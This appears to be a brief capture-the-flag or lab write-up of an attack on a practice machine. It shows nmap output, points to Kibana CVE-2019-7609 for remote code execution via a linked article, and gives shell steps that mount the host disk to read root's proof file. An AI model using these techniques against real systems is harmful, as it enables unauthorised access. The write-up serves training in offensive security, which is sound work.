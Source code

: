 # Table of Contents
- [Recon](#recon)
    - [nmap](#nmap)
- [Foothold](#foothold)
- [PE](#pe)

# Recon

## nmap
```c
PORT STATE SERVICE VERSION  
22/tcp open ssh OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)  
| ssh-hostkey:  
| 2048 cd:88:cb:33:78:9a:bf:f0:31:57:d9:2f:ae:13:ee:db (RSA)  
| 256 fb:54:3b:ba:f6:68:57:81:e4:65:6e:24:9c:db:6d:8a (ECDSA)  
|_ 256 be:6e:25:d1:88:09:7e:33:40:b3:56:6a:b4:ce:16:0d (ED25519)  
80/tcp open http Apache httpd 2.4.25 ((Debian))  
|_http-server-header: Apache/2.4.25 (Debian)  
|_http-title: PHP Calculator  
3306/tcp open mysql MariaDB (unauthorized)  
5601/tcp open esmagent?  kibana  
24007/tcp open rpcbind  
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port  
Device type: general purpose  
Running (JUST GUESSING): Linux 3.X|4.X (88%)  
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4  
Aggressive OS guesses: Linux 3.11 - 4.1 (88%), Linux 4.4 (88%), Linux 3.16 (87%), Linux 3.2.0 (87%), Linux 3.13 (86%)  
No exact OS matches for host (test conditions non-ideal).  
Network Distance: 4 hops  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# Foothold
## Ports
#### 5601
/app/kibana
    v6.5
    Follow link to get RCE:  https://systemweakness.com/this-kibana-vulnerability-can-give-you-rce-in-a-snap-kibana-cve-2019-7609-7de49112139e

# PE
- Spawn in as root. Find / -name proof.txt 2>/dev/null  ->  didn't find file
- fdisk -l
    mkdir /mnt/own
    mount /dev/sda1 /mnt/own
    cd /mnt/own/root  >  cat proof.txt